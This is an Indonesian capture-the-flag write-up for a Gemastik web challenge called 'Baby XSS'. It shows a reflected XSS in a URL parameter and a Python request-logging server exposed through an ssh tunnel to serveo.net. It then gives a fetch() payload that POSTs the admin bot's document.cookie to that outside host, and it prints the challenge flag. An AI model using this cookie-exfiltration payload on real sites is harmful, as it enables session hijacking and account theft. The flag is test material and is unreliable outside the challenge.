


# Baby XSS

>Aku yang baru belajar XSS menemukan sebuah repo untuk automasi XSS challenge deployment, berikut reponya: <br>https://github.com/dimasma0305/CTF-XSS-BOT/ <br>Bisakah kalian membantuku untuk melakukan exploitasi XSS sesuai pada repo kode vulnerable yang ada di repository tersebut?

>http://ctf.gemastik.id:9020/

**Category: Web** 

## Approach


Sesuai dengan deskripsi, challenge ini merupakan challenge XSS. Berdasarkan pada repository, XSS terdapat pada halaman utama yaitu http://ctf.gemastik.id:9020/ dengan parameter x pada URL.


Lakukan XSS sederhana dengan menambahkan `?x=alert(1)` 

       

Halaman bot admin berada pada http://ctf.gemastik.id:9020/report.


Nampaknya flag dimasukkan ke dalam cookie pada bot.

.

Selanjutnya kita akan mencoba mendapatkan cookie dari bot tersebut dengan bantuan XSS, dan dikirimkan ke HTTP Server sederhana yang akan kita buat dan diekspos menggunakan [serveo](https://serveo.net/).

Buat `server.py` untuk menangkap request yang masuk

```python
#!/usr/bin/env python3
"""
License: MIT License
Copyright (c) 2023 Miel Donkers

Very simple HTTP server in python for logging requests
Usage::
    ./server.py [<port>]
"""
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging
            
class S(BaseHTTPRequestHandler):
    def _set_response(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()
        self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))

    def do_POST(self):
        content_length = int(self.headers['Content-Length']) # <--- Gets the size of data
        post_data = self.rfile.read(content_length) # <--- Gets the data itself
        logging.info("POST request,\nPath: %s\nHeaders:\n%s\n\nBody:\n%s\n",
                str(self.path), str(self.headers), post_data.decode('utf-8'))

        self._set_response()
        self.wfile.write("POST request for {}".format(self.path).encode('utf-8'))

def run(server_class=HTTPServer, handler_class=S, port=8080):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting httpd...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping httpd...\n')

if __name__ == '__main__':
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

Jalankan HTTP Server dan ekspos ke publik dengan serveo.
```bash
python server.py 8080

ssh -R 80:localhost:8080 serveo.net
```

Masukkan URL berisi payload XSS ke dalam halaman admin bot, ini akan melakukan POST request dan mengirimkan cookie melalui body ke HTTP Server. Rubah `xxx.serveo.net` dengan public URL yang didapat dari port forwarding serveo.

```
http://proxy/?x=fetch(%27https://xxx.serveo.net%27,%20{method:%20%27POST%27,%20body:%20JSON.stringify(document.cookie)})
```

  

Kita mendapatkan flagnya

        

**Flag**: `gemastik{s3lamat_anda_m3ndap4tkan_XSS}`
